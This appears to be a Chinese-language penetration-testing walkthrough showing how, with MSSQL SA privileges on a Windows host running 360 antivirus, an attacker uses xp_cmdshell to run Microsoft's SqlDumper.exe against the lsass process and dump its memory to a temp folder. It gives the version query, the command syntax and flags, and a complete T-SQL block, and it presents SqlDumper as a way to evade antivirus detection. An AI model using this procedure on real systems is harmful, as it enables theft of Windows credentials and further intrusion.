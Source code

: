 > 1.  MSSQL 数据库 SA 权限
>     
> 2.  有 360
>     
> 3.  数据库以 system 权限启动的
>     

翻资料的时候看到了这个

https://zhuanlan.zhihu.com/p/57800688

> SqlDumper.exe 是从 SQL Server 安装目录下提取出来的，**功能和 Procdump 相似，**并且也是微软出品的，体积远小于 Procdump，也具备一定的免杀功能。SqlDumper.exe 默认存放在 C:\Program Files\Microsoft SQL Server\number\Shared，number 代表 SQL Server 的版本，**参考如下：**
> 
> 140 for SQL Server 2017
> 
> 130 for SQL Server 2016
> 
> 120 for SQL Server 2014
> 
> 110 for SQL Server 2012
> 
> 100 for SQL Server 2008
> 
> 90 for SQL Server 2005
> 
> 如果目标机器没有安装 SQL Server，可以自己上传一个 SqlDumper.exe。

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16m02dJBPnhGve9X4Ss1CQutUCcr88icKGlibluoFZN973E3EicqU5pczoLA/640?wx_fmt=png)

那么查下数据库版本信息

`Select @@version`

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mH7Hib0qFvSyUoRlYAd2Wia0SK5iayE9m0zqo6VkzPicicj1OMeJ1I56uEww/640?wx_fmt=png)

那么命令应该是`C:\Program Files\Microsoft SQL Server\100\Shared\Sqldumper.exe ProcessID 0 0x01100`

继续查下`lsass`的`pid`

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mDeePHpuiauibcYnr7o4VGIhd8SPh2r2HUvF5w5JAVEgbGpgXxKtKTu7Q/640?wx_fmt=png)

命令补全后`"C:\Program Files\Microsoft SQL Server\100\Shared\Sqldumper.exe" 608 0 0x01100 0 C:\Users\Administrator\AppData\Local\Temp`

其中，`Sqldumper`原型为`SqlDumper <process id (PID)> <thread id (TID)> <Flags:Minidump Flags> <SQLInfoPtr> <Dump Directory>`

然后执行

```
DECLARE @line sysname
SET @line = '"C:\Program Files\Microsoft SQL Server\100\Shared\Sqldumper.exe" 608 0 0x01100 0 C:\Users\Administrator\AppData\Local\Temp'
EXEC master..xp_cmdshell @line
```
